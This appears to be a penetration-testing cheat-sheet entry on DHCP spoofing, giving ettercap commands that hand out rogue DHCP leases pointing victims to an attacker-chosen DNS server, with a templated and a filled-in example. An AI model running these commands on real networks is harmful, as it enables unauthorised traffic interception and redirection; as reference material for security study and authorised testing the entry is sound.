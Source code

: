 # 04 - DHCP Spoofing

Search Tag(s): #initial-access #exploitation #sniffing-and-spoofing #ettercap

```
$ sudo ettercap -Tqi <interface> -P dns_spoof -M dhcp:<IP_pool>/<subnet_mask>/<rouge_dns_server_IP>

$ sudo ettercap -Tqi <interface> -P dns_spoof -M dhcp:192.168.0.20-25/255.255.255.0/8.8.8.8
```

---
## References

### Backlinks

- [[Denial of Service|Denial of Service: DHCP]]